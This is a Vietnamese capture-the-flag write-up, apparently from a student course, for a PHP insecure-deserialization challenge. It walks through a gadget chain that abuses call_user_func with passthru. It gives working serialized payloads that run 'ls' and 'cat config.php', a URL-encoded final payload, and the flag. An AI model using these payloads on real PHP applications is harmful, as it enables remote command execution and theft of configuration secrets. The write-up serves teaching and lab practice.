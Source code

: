 # Nhóm bài tập CTF ✌
- **Insecure Deserialization**:<br>
- **Note:** Bài tập CTF của môn Lập trình an toàn và khai thác lổ hổng phần mềm<br>
- **Team:** Blackberries<br>
- **Link:** http://45.122.249.68:10001/

## Write Up:<br>
- Vào link, ta thấy một đoạn code PHP. 
```
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```
- Ta thấy có 3 class chính `User`, `Show_color` và `do_nothing`<br>
- Xem đoạn thực thi code:
```
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
```
Ta hiểu đoạn code trên sẽ lấy biến `code` trong URL thông qua hàm `$_GET[]` và `unserialize` biến `code` đó. Trong trường hợp biến `code` chưa có giá trị thì in ra đoạn code PHP như trên - `highlight_file(__FILE__);`. Đồng thời có sự xuất hiện của hai hàm `__construct()` và `__destruct()` nên thuận lợi cho việc deserialization. Vì thao tác `unserialize` không hề có verify input nên chúng ta có thể tận dụng lổ hổng này để khai thác.
- Ta để ý thấy `User` class có vẻ đặc biệt khi có biến `admin=false`và khi `admin=true` thì có in ra dòng chữ `"hi admin, here is your flag"`. Vậy ta sẽ serialize `User` object.
```
$a = new User('name');
$b = serialize($a);
echo $b;
```
Ta được: `O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:0;}`.
Chỉnh sửa giá trị `admin` thành `true`. Thay `b:0` thành `b:1`. Gửi giá trị biến code lên trang: 
http://45.122.249.68:10001?code=O:4:"User":2:{s:10:"Username";s:4:"name";s:14:"Useris_admin";b:1;}
Ta chỉ thấy một trang rỗng. Vậy là hướng này không đúng.
- Xét 2 class tiếp theo ta thấy có vẻ thuận lợi hơn vì ở class `Show_color` có thực hiện hàm `call_user_func()`. Có vẻ đây mới là hướng đúng vì hàm này sẽ thực thi lệnh với tham số thứ nhất là tên hàm và các tham số sau là tham số đầu vào cho hàm. Xem thêm thông tin [Tại đây](https://www.php.net/manual/en/function.call-user-func). Vậy ta sẽ xem xét một số hàm **execute shell** trong PHP: `exec()`, `shell_exec()`, `system()`, `passthru()`. Trong đó hàm `system()` và `passthru()` là thuận tiện nhất vì không cần đòi hỏi thêm thao tác nào.
-  Tiếp theo là ta xem xét cách để đưa hàm **excute shell** vào phương thức. 
```
public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
```
- Theo ý tưởng ban đầu, ta sẽ sử dụng hàm `passthru()` làm tham số thứ nhất và lệnh `ls` làm tham số thứ 2. Nhưng vấn đề ở đây là với tham số thứ 2 mình có thể truyền `ls` vào biến `$color` thông qua **constructor** nhưng không thể đưa `passthru` vào biến thứ nhất vì nó truy vấn 2 lần `$this->type->adu`, vậy mình phải làm sao đó để `$this-type` là một object và sau đó lấy `adu` trong chính object đó.
- Nhìn vào class `do_nothing`, ta thấy có một phương thức `__get()`. Đây là một trong [Magic Method](https://www.php.net/manual/en/language.oop5.magic.php) để override các hàm mặc định được định nghĩa bởi PHP. `__get()` nhận tham số đầu vào có thể là một member hoặc một method. Trong đoạn code, phương thức `__get()` thực hiện trả về giá trị   `this ->i_use_this` khi kiểm tra `this->why` khác rỗng hay không. 
### Solution:
- Khỏi tạo đối tượng  `do_nothing` với hai giá trị đầu vào là `123` và `passthru`. (Giá trị đầu là tùy ý)
- Khỏi tạo đối tượng `Show_color` với hai giá trị đầu vào là **do_nothing object** ở trên và lệnh muốn thực thi `ls`. 
- Sau đó `serialize` đối tượng  `Show_color`
**Sample**:
```
$a = new do_nothing(123,"passthru");
$b = new Show_color($a,"ls");
$code = serialize($b);
echo $code;
```
Kết quả:
`O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}`
- Đưa vào biến `code` làm payload<br>

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138675519-6fc911d4-823a-405a-b6f8-a74da4e05dec.png">
</p>

- Ta thấy ở trên có 2 file. Vậy là đã thành công, vấn đề logic ở đây là khi thực hiện  `call_user_func($this->type->adu,$this->color);`. `$this->type` ở đây sẽ thành biến `$a`
, sau đó mình hình dung là `call_user_func($a->adu,$this->color);`. Quá trình `$a->adu` sẽ được thực hiện trong phương thức `__get($method)` đã được định nghĩa trước. Và `$method` ở đây là `adu`, mà cái này hầu như không có giá trị vì biến `$this->why` mình đã set khác **null** để **block** phía trong thực thi `return $this->i_use_this;` và tương đương `return passthru($command)` với **$command** là mình đã khởi tạo cho Object.
- Sau đó,  ta sẽ thử đọc file `config.php` trước. Chỉnh lệnh `ls` thành `cat config.php` và thực hiện lại quá trình **serialize** theo các bước trên.
Payload: O:10:"Show_color":2:{s:5:"color";s:13:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";i:123;s:10:"i_use_this";s:8:"passthru";}}

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138678027-6bf37d9f-08e8-4fc4-a663-242a7e406030.png">
</p>

Dường như không có tác dụng, ta mới để ý một chuyện là ta thao tác trên URL nên bị ảnh hưởng bởi **URL Encode**. Nên ở chỗ `cat index.php` có khoảng trắng là ký tự đặc biệt bị ảnh hưởng. Để cho chắc, ta sẽ encode cả payload.

<p align="center">
  <img src="https://user-images.githubusercontent.com/48288606/138679801-71a74d2a-a376-478c-a92f-29e0da356e67.png">
</p>

**Final Payload**: %4f%3a%31%30%3a%22%53%68%6f%77%5f%63%6f%6c%6f%72%22%3a%32%3a%7b%73%3a%35%3a%22%63%6f%6c%6f%72%22%3b%73%3a%31%34%3a%22%63%61%74%20%63%6f%6e%66%69%67%2e%70%68%70%22%3b%73%3a%34%3a%22%74%79%70%65%22%3b%4f%3a%31%30%3a%22%64%6f%5f%6e%6f%74%68%69%6e%67%22%3a%32%3a%7b%73%3a%33%3a%22%77%68%79%22%3b%69%3a%31%32%33%3b%73%3a%31%30%3a%22%69%5f%75%73%65%5f%74%68%69%73%22%3b%73%3a%38%3a%22%70%61%73%73%74%68%72%75%22%3b%7d%7d
- Xuất hiện trang rỗng, vô source code để kiểm tra.
```
<?php
$flag = "flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}";
?>
```
**=>flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
